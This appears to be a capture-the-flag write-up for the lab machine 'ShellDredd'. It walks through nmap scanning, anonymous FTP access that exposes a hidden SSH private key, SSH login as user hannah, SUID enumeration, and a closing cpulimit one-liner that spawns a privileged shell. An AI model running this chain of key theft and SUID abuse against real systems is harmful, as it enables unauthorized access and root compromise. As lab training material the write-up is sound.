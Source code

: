 # IP: 	 192.168.188.130


# NMAP
```javascript
                                                                             
┌──(dx㉿kali)-[~]
└─$ nmap -p- --min-rate 10000 192.168.188.130  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 00:07 EDT
Warning: 192.168.188.130 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.188.130
Host is up (0.16s latency).
Not shown: 55497 closed tcp ports (conn-refused), 10036 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
61000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 50.34 seconds
┌──(dx㉿kali)-[~]
└─$ nmap -p 21,61000 -sCV 192.168.188.130    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 00:13 EDT
Nmap scan report for 192.168.188.130
Host is up (0.24s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.188
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
                                                                 
```


## FTP - TCP 21

### FTP-Enumeration
`` First Connect and Enumerate the server``
```javascript


                                                                             
┌──(dx㉿kali)-[~]
└─$ ftp 192.168.188.130
Connected to 192.168.188.130.
220 (vsFTPd 3.0.3)
Name (192.168.188.130:dx): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||8122|)
150 Here comes the directory listing.
226 Directory send OK.
```
``This seems to be empty directory let's list all the content by using -a tag with ls``
```javascript
ftp> ls -a
229 Entering Extended Passive Mode (|||49213|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
```
``This directory contain a hidden directory called .hannah . Lets list all the content of the directory``
```javascript
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -a
229 Entering Extended Passive Mode (|||55010|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```
```We Found Private SSH Key in the hidden directory. We will download the key in our attacker machine```
```javascript
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||34204|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |********************************|  1823        7.36 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (5.91 KiB/s)

```

# Exploitation

## SSH

``We have found the ssh key from .hannah directory , let first give permission and then authenticate user against the SSH service on port 61000. ``
```javascript
┌──(dx㉿kali)-[~]
└─$ chmod 0600 id_rsa        
                                                                              
┌──(dx㉿kali)-[~]
└─$ ssh -i id_rsa hannah@192.168.188.130 -p 61000
The authenticity of host '[192.168.188.130]:61000 ([192.168.188.130]:61000)' can't be established.
ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.188.130]:61000' (ED25519) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ 
```
``We have obtained Local Access on the target Machine``
# Escalation

#### SUID Enumeration
```javascript
hannah@ShellDredd:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
```


/usr/bin/cpulimit -l 100 -f -- /bin/sh -p
